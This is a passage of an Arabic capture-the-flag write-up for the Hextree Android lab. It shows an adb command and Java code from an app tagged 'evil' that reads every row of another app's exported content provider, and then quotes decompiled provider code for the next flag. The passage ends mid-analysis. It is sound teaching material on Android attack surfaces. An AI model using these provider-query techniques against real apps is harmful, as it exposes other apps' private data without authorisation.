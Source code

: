 ADB:

```shell
 adb shell content query --uri content://io.hextree.flag30/success
```

الناتج: `Row: 0 _id=1, name=flag30, value=HXT{XXXX-YYYYY-ZZZZ-c}, visible=1`

java:

```java
Uri uri = Uri.parse("content://io.hextree.flag30/success");
Cursor cursor = getContentResolver().query(uri, null, null, null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString()); // النتيجة هتتسجل 
    } while (cursor.moveToNext());  
}
```

الكود ده بيطلب من app تاني (`io.hextree.flag30`) بيانات مخفية ويقرأ كل الصفوف والأعمدة من قاعدة البيانات بتاعته ويسجل النتائج.

### Flag 31

#### تحليل الكود

```xml
<provider
    android:name="io.hextree.attacksurface.providers.Flag31Provider"
    android:enabled="true"
    android:exported="true"
    android:authorities="io.hextree.flag31"/>
```

```java
public class Flag31Provider extends ContentProvider {
    public static final String AUTHORITY = "io.hextree.flag31";
    private static final int FLAGS = 1;
    private static final int FLAG_ID = 2;
    static {
        UriMatcher uriMatcher2 = new UriMatcher(-1);
        uriMatcher = uriMatcher2;
        uriMatcher2.addURI(AUTHORITY, "flags", 1);
        uriMatcher2.addURI(AUTHORITY, "flag/#", 2);
    }

    @Override // android.content.ContentProvider
    public Cursor query(Uri uri, String[] strArr, String str, String[] strArr2, String str2) {
        
        StringBuilder append = new StringBuilder("Flag31Provider.query('").append(uri.getPath()).append("'): ");
        
        UriMatcher uriMatcher2 = uriMatcher;
        SQLiteDatabase readableDatabase = this.dbHelper.getReadableDatabase();
        int match = uriMatcher2.match(uri);
        if (match == 1) {
            throw new IllegalArgumentException("FLAGS مش متعمل لسه: " + uri);
        }
        if (match == 2) {
            long parseId = ContentUris.parseId(uri);
            Log.i("Flag31", "FLAG_ID: " + parseId);
            if (parseId == 31) {
```